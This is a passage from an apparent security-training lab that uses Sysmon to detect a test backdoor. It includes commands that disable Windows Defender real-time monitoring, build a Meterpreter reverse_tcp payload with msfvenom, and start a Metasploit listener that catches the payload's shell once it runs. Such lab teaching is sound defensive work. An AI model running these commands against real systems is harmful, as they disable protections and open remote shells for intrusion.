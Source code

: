 
# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.


Now, run the following commands to start a simple backdoor and backdoor listener: 
 

 `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, we will need to open an cmd.exe terminal as Administrator.


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the pop up select Yes.

Next, to open a Command Prompt Window, select the Down Carrot ![](attachments\Clipboard_2020-06-12-10-38-20.png) and then select Command Prompt.

![](attachments/Clipboard_2020-06-12-10-38-52.png)

Then, type the following:



C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`


It should look like this:

![](attachments/Clipboard_2020-06-15-10-43-37.png)


let's run the following commands to run the TrustMe.exe file.

`cd \tools`
 
 `TrustMe.exe`


Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](attachments/Clipboard_2020-06-15-10-46-31.png)


        …………………………………………………………….

![](attachments/Clipboard_2020-06-15-10-47-01.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](attachments/Clipboard_2020-07-09-16-04-23.png)

![](attachments/Clipboard_2020-07-09-16-04-40.png)




















